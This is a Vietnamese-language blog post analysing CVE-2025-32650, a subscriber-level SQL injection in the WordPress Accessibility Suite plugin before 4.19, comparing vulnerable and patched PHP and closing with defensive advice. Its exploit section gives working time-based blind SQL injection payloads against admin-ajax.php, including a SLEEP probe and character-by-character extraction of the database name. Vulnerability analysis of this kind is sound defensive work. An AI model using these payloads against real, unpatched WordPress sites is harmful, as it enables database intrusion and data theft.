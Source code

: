 ```yaml
---
title: CVE-2025-32650 Analysis & POC
description: Security Vulnerability in WordPress Accessibility Suite Plugin.
date: 2025-09-26 10:36:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


---

Lỗ hổng xảy ra trên plugin **Accessibility Suite** của WordPress trước phiên bản **4.19**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
- **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 4.18
- **CVSS severity**: High (8.5) 
- **Required Privilege**: Subscriber

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Accessibility Suite**:  v4.18(vul) và v4.19(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis
Ứng dụng chưa thực hiện ép kiểu cho **input** và mặc dù có sử dụng `prepare()` để chống SQLi, nhưng do triển khai không đúng nên lỗ hổng SQLi vẫn tồn tại.

### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **includes/classes/Helper.php**

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
````

Bản vá đã truyền `$scan_id` như tham số vào câu query. SQL injection được phòng ngừa vì biến không được nối trực tiếp vào query nữa.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

![patch diff](patch_diff.png "Patch diff")

### How it work?

Lỗ hổng nằm trong hàm tĩnh `save_false_positive` của class `Helper` thuộc file **includes/classes/Helper.php**. Để xác định nơi nó được gọi, ta tìm kiếm với tự khóa `save_false_positive` trong thư mục chứa plugin.

![search 1](search_1.png "Search save_false_positive")

👉 `save_false_positive` được `callback` của action hook `wp_ajax_ONLINE_ADAv4/save_false_positive` gọi.

Khi **POST** request được gửi đến `/wp-admin/admin-ajax.php` với `action`=`ONLINE_ADAv4/save_false_positive` callback được gọi.
Trong request cần 2 **POST** param `issue_id` và `scan_id`. Nếu không, ứng dụng sẽ trả về:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

`save_false_positive` được gọi với đối số `issue_id` và `scan_id`. Các đối số này sẽ bị escape bởi [**magic quotes**](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress vì lấy trực tiếp từ **POST** request.

Ứng dụng check xem người dùng có quyền truy cập vào trang admin không. Nếu không, trả về chuỗi rỗng.

```php
if(! is_admin()) {
    return '';
}
```

Sau đó các đối số trực tiếp truyền vào câu query chứa lỗ hổng SQLi rồi thực thi.

---

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi. Vì chỉ cần là user có quyền truy cập vào trang admin, nên ta tạo user với `role:subcriber` có **privilege thấp nhất**.

Trong WordPress, user có role cao hơn sẽ kế thừa cả **privilege** role thấp hơn. Nên chỉ cần user `subcriber` gửi payload thành công thì tất cả user còn lại đều có thể. Đúng với mô tả của CVE

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

Khi đó câu query sẽ trở thành

```sql
SELECT list FROM  wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

![time response](time_response.png "Time response with SQLi payload")

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

* **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng với truy vấn trước đó.
* **Subquery**:

  * **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
  * **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

![SQL Excution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL Execution Order Diagram")

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì như phân tích [ở trên](#how-it-work), `scan_id` sẽ bị escape.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

---

## Conclusion

Lỗ hổng **CVE-2025-32650** trong plugin WordPress **Accessibility Suite** trước phiên bản **4.19** xuất phát từ việc triển khai không đúng hàm `$wpdb->prepare()` dẫn đến lỗ hổng SQL Injection.

Bản vá chính thức đã triển khai đúng `$wpdb->prepare`, giúp đảm bảo dữ liệu đầu vào được kiểm soát và an toàn hơn.

**Key takeaways**:

* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection ](https://wordpress.org/plugins/online-accessibility/)

---
